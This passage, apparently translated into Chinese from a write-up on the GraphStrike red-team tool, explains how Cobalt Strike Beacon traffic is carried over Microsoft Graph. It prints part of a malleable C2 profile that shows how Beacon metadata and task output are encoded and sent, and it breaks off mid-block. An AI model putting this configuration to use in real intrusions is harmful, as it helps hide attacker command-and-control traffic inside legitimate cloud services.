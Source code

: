 | **Statement** | **What** |
| --- | --- |
| header “header” | Store data in an HTTP header |
| parameter “key” | Store data in a URI parameter |
| print | Send data as a transaction body |
| uri-append | Append to URI |

与传统的 HTTP/HTTPS C2 的 Cobalt Strike 配置文件相比，GraphStrike 配置文件中的 http-config、http-get 和 http-post 部分非常简单。例如，Beacon 在其请求中没有定义要使用的“header”值，因为我们必须在运行时使用当前的访问令牌手动组装标头。这种简化的配置文件使得在 GraphLdr 设置的被钩住的函数中后续操作 Beacon 数据变得容易。

实际上，GraphStrike 并不真正需要 http-config 块，因为它控制了 Cobalt Strike Web 服务器如何响应请求。在 GraphStrike 模型中，TS 实际上是在响应来自 GraphStrike 服务器而不是 Beacon 的请求，因此所有这些通信都是在本地完成的，不需要任何形式的隐蔽或秘密行动。

在查看 http-get 和 http-post 块时，我们无法在配置文件中指定实际的 URI，因为每个 Beacon 都需要一个唯一的 URI，而这将在运行时创建。关于 Beacon 元数据或会话 ID 的任何额外、不必要的操作都是我们以后在 GraphStrike 服务器端要处理的事情，所以我们可以保持简单。Beacon 元数据是一个二进制块，但我们可以对其进行 base64url 编码，以便将其附加到 http-get 请求的 URI 中。会话 ID 可以以未经转换的形式附加到 http-post 请求的 URI 中。

在 TS 任务和 Beacon 输出方面，当 TS 有针对 Beacon 的任务时，我们指定它应该只是“打印”任务，或将其发送到响应的正文中。我们还不会操作或混淆这些数据（它们只是加密的二进制块）。类似地，当 Beacon 具有来自已完成任务的输出时，我们将指示它“打印”该输出，并将其以未经转换的形式发送到 http-post 请求的正文中。综合起来，GraphStrike 配置文件的 http-get 和 http-post 部分如下所示：

```plain
http-config {
    # This section all relates to how the Cobalt Strike web server responds.
    # It's all irrelevant for GraphStrike, since the TS is just responding to the GraphStrike server's requests.
    set headers "Date, Server, Content-Length, Keep-Alive, Connection, Content-Type";
    header "Server" "Apache";
    header "Keep-Alive" "timeout=10, max=100";
    header "Connection" "Keep-Alive";
}

http-get {

    # We just need our URI to be something unique and recognizable in order for GraphStrike to parse out values
    set uri "/_";
    set verb "GET";

    client {

        metadata {
            base64url;
            uri-append;
        }
    }

    server {

        output {   
            print;
        }
    }
}

http-post {

    # We just need our URI to be something unique and recognizable in order for GraphStrike to parse out values
    set uri "/-_";
    set verb "POST";

```